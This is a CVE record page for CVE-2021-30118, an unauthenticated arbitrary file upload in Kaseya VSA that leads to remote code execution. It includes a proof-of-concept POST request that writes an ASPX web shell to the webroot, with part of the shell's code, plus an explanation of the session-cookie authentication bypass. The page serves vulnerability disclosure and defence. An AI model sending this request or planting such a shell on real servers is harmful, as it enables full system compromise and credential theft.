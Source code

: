
# [CVE-2021-30118](https://csirt.divd.nl/2021/07/07/Kaseya-Limited-Disclosure/)

## Description

- `An attacker can upload files with the privilege of the Web Server process for Kaseya VSA Unified Remote Monitoring & Management (RMM) 9.5.4.2149 and subsequently use these files to execute asp commands The api /SystemTab/uploader.aspx is vulnerable to an unauthenticated arbitrary file upload leading to RCE. An attacker can upload files with the privilege of the Web Server process and subsequently use these files to execute asp commands. Detailed description --- Given the following request: ``` POST /SystemTab/uploader.aspx?Filename=shellz.aspx&PathData=C%3A%5CKaseya%5CWebPages%5C&__RequestValidationToken=ac1906a5-d511-47e3-8500-47cc4b0ec219&qqfile=shellz.aspx HTTP/1.1 Host: 192.168.1.194 Cookie: sessionId=92812726; %5F%5FRequestValidationToken=ac1906a5%2Dd511%2D47e3%2D8500%2D47cc4b0ec219 Content-Length: 12 <%@ Page Language="C#" Debug="true" validateRequest="false" %> <%@ Import namespace="System.Web.UI.WebControls" %> <%@ Import namespace="System.Diagnostics" %> <%@ Import namespace="System.IO" %> <%@ Import namespace="System" %> <%@ Import namespace="System.Data" %> <%@ Import namespace="System.Data.SqlClient" %> <%@ Import namespace="System.Security.AccessControl" %> <%@ Import namespace="System.Security.Principal" %> <%@ Import namespace="System.Collections.Generic" %> <%@ Import namespace="System.Collections" %> <script runat="server"> private const string password = "pass"; // The password ( pass ) private const string style = "dark"; // The style ( light / dark ) protected void Page_Load(object sender, EventArgs e) { //this.Remote(password); this.Login(password); this.Style(); this.ServerInfo(); <snip> ``` The attacker can control the name of the file written via the qqfile parameter and the location of the file written via the PathData parameter. Even though the call requires that a sessionId cookie is passed we have determined that the sessionId is not actually validated and any numeric value is accepted as valid. Security issues discovered --- * a sessionId cookie is required by /SystemTab/uploader.aspx, but is not actually validated, allowing an attacker to bypass authentication * /SystemTab/uploader.aspx allows an attacker to create a file with arbitrary content in any place the webserver has write access * The web server process has write access to the webroot where the attacker can execute it by requesting the URL of the newly created file. Impact --- This arbitrary file upload allows an attacker to place files of his own choosing on any location on the hard drive of the server the webserver process has access to, including (but not limited to) the webroot. If the attacker uploads files with code to the webroot (e.g. aspx code) he can then execute this code in the context of the webserver to breach either the integrity, confidentiality, or availability of the system or to steal credentials of other users. In other words, this can lead to a full system compromise.`

## Cvss Data

- **Access Vector**:
  - NETWORK
- **Base Score**:
  - 10.0

## Scores

- **Exploitability Score**:
  - 10.0
- **Impact Score**:
  - 10.0
- **Base Severity**:
  - HIGH

## Other Information

- **Publish Date**:
  - 2021-07-09 14:15:07
- **Vulnerability Status**:
  - Analyzed

## References

- **cve@mitre.org**: https://csirt.divd.nl/2021/07/07/Kaseya-Limited-Disclosure/
- **cve@mitre.org**: https://csirt.divd.nl/CVE-2021-30118
- **cve@mitre.org**: https://csirt.divd.nl/DIVD-2021-00011
- **cve@mitre.org**: https://helpdesk.kaseya.com/hc/en-gb/articles/360019054377-9-5-5-Feature-Release-10-April-2021
